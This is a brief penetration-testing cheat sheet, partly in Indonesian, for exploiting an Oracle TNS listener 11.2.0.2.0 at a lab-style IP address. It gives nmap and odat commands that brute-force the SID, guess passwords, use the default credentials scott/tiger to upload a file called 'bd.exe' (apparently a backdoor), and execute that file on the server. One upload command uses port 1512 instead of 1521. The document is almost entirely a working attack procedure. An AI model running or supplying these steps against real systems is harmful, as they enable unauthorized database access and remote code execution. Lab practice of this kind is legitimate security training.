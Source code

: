 # Exploit Oracle TNS listener 11.2.0.2.0 (unauthorized)  

# recon sid

    nmap --script "oracle-sid-brute.nse" 10.10.10.82 

download nmap script: wget `https://svn.nmap.org/nmap/scripts/oracle-sid-brute.nse`

# Exploit Oracle TNS listener with Odat

check sid

    python3 odat.py sidguesser -s 10.10.10.82 -p 1521

guessing password

    python3 odat.py passwordguesser -s 10.10.10.82 -p 1521 -d XE

upload file 

    python3 odat.py utlfile -s 10.10.10.82 -p 1512 --sysdba -d XE -U scott -P tiger --putFile C:// bd.exe bd.exe

atau bisa ini buat upload file

    python3 odat.py utlfile -s 10.10.10.82 --sysdba -d XE -U scott -P tiger --putFile /temp bd.exe bd.exe  

exec file

    python3 odat.py externaltable -s 10.10.10.82 -p 1521 --sysdba -d XE -U scott -P tiger --exec C:// bd.exe

ref:

    https://infinitelogins.com/2020/12/03/pentesting-oracle-databases-with-odat/